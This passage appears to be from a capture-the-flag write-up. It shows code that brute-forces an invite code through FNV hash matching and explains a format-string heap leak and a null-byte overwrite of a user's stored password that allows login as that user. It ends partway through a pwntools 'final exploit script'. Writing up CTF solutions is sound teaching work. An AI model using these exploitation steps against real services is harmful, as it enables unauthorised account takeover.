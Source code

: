 ```py
        for letter in ALPHABET:
            current_string = (current_payload + retrieved_invite_code + letter)[-required_content_length:]
            current_hash = hex(fnv(current_string.encode()))[2:]
            if current_hash == target_hash:
                retrieved_invite_code += letter
                current_payload = current_payload[1:]
                offset_to_invite_code -= 1
                print(retrieved_invite_code)
                break
        else:
            break
```

Now that we have the invite code, we can create users and trigger the format string vulnerability.

Another thing to notice is that Tom's password is stored on the heap:

![](11.png)

From the format string vulnerability we have a heap leak at `%10$p` and Tom's password is at a constant offset from it.
We can upload a file that writes a null byte at the beginning of Tom's password, so we can log in as Tom by providing an empty password
and view the flag.

Final exploit script:

```py
from pwn import *
from dataclasses import dataclass
import string
from typing import Optional


old_clean = pwnlib.tubes.tube.tube.clean
pwnlib.tubes.tube.tube.clean = lambda self: old_clean(self, timeout=0.1)


context.arch = "amd64"
context.log_level = "debug"

TOM = 15


def fnv(data: bytes, cycles: Optional[int] = None):
    if cycles is None:
        cycles = len(data)

    result = 0xCBF29CE484222325
    for i in range(cycles):
        result = 0x100000001B3 * (data[i] ^ result)
        result &= 0xffffffffffffffff

    return result


ALPHABET = string.ascii_letters + "-"


@dataclass
class Zip:
    signature: int # dword
    version: int # word
    flags: int # word
```